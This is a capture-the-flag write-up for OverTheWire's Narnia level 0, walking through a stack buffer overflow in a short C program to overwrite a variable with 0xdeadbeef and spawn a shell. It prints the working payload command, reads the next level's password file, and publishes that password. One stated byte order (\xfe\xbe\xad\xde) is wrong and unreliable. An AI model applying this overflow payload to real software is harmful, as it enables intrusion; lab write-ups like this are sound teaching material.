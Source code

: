 # **NARNIA 0**

So let's just connect with this:
	ssh -p 2226 narnia0@narnia.labs.overthewire.org
and the password is:
narnia0

## Let's analyze our data
The data are into /narnia/
The code is:

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Any value wouldn't do anything, so now let's try to give him too many char

### The idea
>This technique is called a BufferOverflow, where we put our data is a buffer, but obsviously he has a limited size!
>So if you give him too many informations, what happened?
> Let's see!!

### The Application
So let's try to overflow the buffer -->

```python
python -c 'print "A"*30' | ./narnia0
```

and of course we got the result = AAAAAAAAAAAAAAA 
So our overflow works and our data is oveflowing!
the size given to our scanf is 20char
we want to send "deadbeef" but the machine is certainly a little endian 

## BUT what is a little or big endian??
>When our data is saved they follow rules, for example if I do want to stock the hex value "dead", in a big endian, I'll just put 0xde and 0xad
>(0x is for hex)
>But a little endian will store "dead" as 0xad 0xde

so we'll return the string
de ad be ef ----> fe be ad de
in hex we have so: **\xfe\xbe\xad\xde**

and as the the sh close up immediatly after we overflow we have to put stg to keep him awake

in my case i'll just use a cat

```bash
(python -c 'print "A"\*20+"\xef\xbe\xad\xde"'; cat) | ./narnia0
```

Alright is see a new shell appeared so let's see who i am with the command whoami --> narnia1
**PERFECT**
alright lets cat /etc/narnia_pass/narnia1
-----------------------------------------
And we have our password!!
(I'll publish them here but don't just pass them, do all the path to get the key your own!)

efeidiedae